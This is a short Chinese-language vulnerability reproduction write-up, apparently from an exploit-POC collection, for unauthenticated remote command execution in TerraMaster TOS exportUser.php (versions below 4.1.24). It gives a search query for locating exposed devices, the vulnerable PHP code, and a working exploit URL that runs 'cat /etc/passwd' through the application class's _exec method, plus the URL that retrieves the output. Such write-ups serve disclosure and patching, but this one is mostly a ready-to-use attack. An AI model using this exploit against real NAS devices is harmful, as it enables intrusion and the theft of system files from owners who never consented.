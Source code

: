 # TerraMaster TOS exportUser.php 远程命令执行

## 漏洞描述

TerraMaster TOS exportUser.php 文件中存在远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.1.24</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

出现漏洞的文件 ***exportUser.php***

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```



在其他文件的代码检查期间，也发现有一种方法可以利用TOS软件中预先存在的类来利用此问题。
位于**include/class/application.class.php**中的PHP类是在运行TOS软件的设备上执行命令的最佳人选。

由于*exportUser.php*没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为HTTP GET参数来实现代码执行。

```plain
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>test.txt
```

返回200后再次访问

```plain
http://xxx.xxx.xxx.xxx/include/test.txt
```

![img](../../../.vuepress/public/img/tm-9.png)